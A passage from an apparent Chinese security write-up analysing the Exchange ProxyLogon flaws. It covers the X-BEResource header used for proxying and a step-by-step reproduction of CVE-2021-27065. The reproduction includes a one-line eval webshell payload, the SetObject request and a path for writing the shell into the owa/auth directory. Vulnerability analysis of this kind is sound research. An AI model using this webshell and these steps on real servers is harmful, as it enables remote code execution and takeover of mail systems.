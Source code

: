 经过上面的分析，我们回答了一开始的问题:

/ecp/target.js 不是必须的，它可以是其他的路径 /ecp/xxxxxxxx.png

X-BEResource 用于代理请求，其原本格式应该是 \[fqdn\]~BackEndServerVersion

BackEndServerVersion 应该大于1941962752，‘#’ 用于在有url请求参数时分隔参数。

而且我们知道了X-BEResource 实际上完全不需要 `]` 去闭合中括号，我们完全可以直接用`[]`来将name 括起来，比如下面这样：

```php
[name]@win-v2jneuvoljv.test.com:443/autodiscover/autodiscover.xml?#~1941962753
```

CVE-2021–27065
--------------

漏洞成因

```php
Microsoft.Exchange.Management.DDIService.WriteFileActivity未校验写文件后缀，可由文件内容部分可控的相关功能写入WebShell。
```

`Microsoft.Exchange.Management.DDIService.WriteFileActivity`中有一处明显的补丁变动，使得文件后缀名只能为txt。  
![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-3e1ba0e7dda9f9e1ad958453995073158ed79df7.png)

在Exchange服务器上依次打开\[管理中心\] -&gt; \[服务器\] -&gt; \[虚拟目录\] -&gt; \[OAB虚拟目录\]。

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-80bd8fd183b0a8856be3aec744973e61aa4349fa.png)

在url中填入一句话木马。

```php
http://ffff/#<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["code"],"unsafe");}</script>
```

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-5c5642f55028b92d29cc587c4c93b237c55e25fc.png)

查看请求包，使用的是`/ecp/DDI/DDIService.svc/SetObject`接口

```php
POST /ecp/DDI/DDIService.svc/SetObject?ActivityCorrelationID=30a0575a-5ee8-8b03-181a-ea1cdc1fb7b4&schema=OABVirtualDirectory&msExchEcpCanary=AQB_nzZ3TkaV7UmDQbbI4GBeZYlBt9oIdPNrql9tKVyzP6vDQRsOmEkxlP1NDQK1d5dAhz17bCI.
```

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-98ee1c36294a1d01b393d2d52e88d7570bcc68e0.png)

在重置位置，填入文件保存目录，然后重置。

```php
\\127.0.0.1\c$\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\kkfine.aspx
```

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-772ddcccbd29f31a65cea6f21bd0052ad832e878.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-091b37acee476a2ac285e34ee4585a4ccd4d9816.png)

